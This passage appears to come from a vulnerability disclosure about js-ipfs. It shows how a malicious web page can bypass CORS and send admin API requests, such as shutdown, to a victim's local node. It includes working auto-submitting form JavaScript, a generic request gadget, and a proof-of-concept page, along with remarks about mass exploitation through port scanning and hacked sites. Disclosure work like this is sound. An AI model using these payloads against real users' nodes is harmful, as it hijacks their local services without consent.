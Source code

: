 We cannot read the result of this `POST` but we actually don't really care. The request bypasses browser CORS and the `shutdown` side-effect is executed in `js-ipfs`.

We can even make this run right on page load and combine it with a javascript portscanner script that attempts to detect non-default admin `API` ports of local `js-ipfs` nodes for mass exploitation. All it takes is luring someone into navigating to our malicious document (which is not hard, people like to click on links, but we can theoretically also get this to run on a hacked site with good traffic counts for $$).

```js
window.onload = function(){
  document.forms['bypassCORS'].submit();
}
```

Let's simplify that even more to provide us with a `write-gadget` to execute arbitrary admin `API` commands:

```js
function callBypassingCORS(target){
    let elem = document.createElement("form");
    elem.setAttribute("method", "post");
    elem.setAttribute("action", target);
    elem.setAttribute("target", "__dummy__")
    document.body.appendChild(elem);
    elem.submit();
}

```

Looks great! Shutdown ahead :)

```js
#> callBypassingCORS("http://localhost:5002/api/v0/shutdown")
```

### Proof of Concept

This works against default installations of `js-ipfs` but let's make it obvious that `CORS` even when enabled, is completely bypassed. Let's add a cryptic origin as the only domain that is allowed to communicate with the API service. We are, of course, not sending from this origin for this PoC.

```
⇒  jsipfs config --json API.HTTPHeaders.Access-Control-Allow-Origin  '["http://randomnonexistentwebsitewedontcareabout"]'
⇒  jsipfs config --json API.HTTPHeaders.Access-Control-Allow-Methods '["PUT", "POST", "GET"]'
```

We verify that the configuration is active (and indirectly, that restrictions on the origin/referrer/hostname are not enforced))

![image](https://user-images.githubusercontent.com/2865694/117191596-05b61d00-ade1-11eb-8954-eb9d456066fe.png)


Looks good, this is the POC website we're using. In this case we're just terminating the local node (no portscanning as we know we're running on the default port).

```html
<!doctype html>
<html>
<body>
  <script>
  function callBypassingCORS(target){
    let elem = document.createElement("form");
    elem.setAttribute("method", "post");
    elem.setAttribute("action", target);
    elem.setAttribute("target", "__dummy__")
    document.body.appendChild(elem);
    elem.submit();
}
```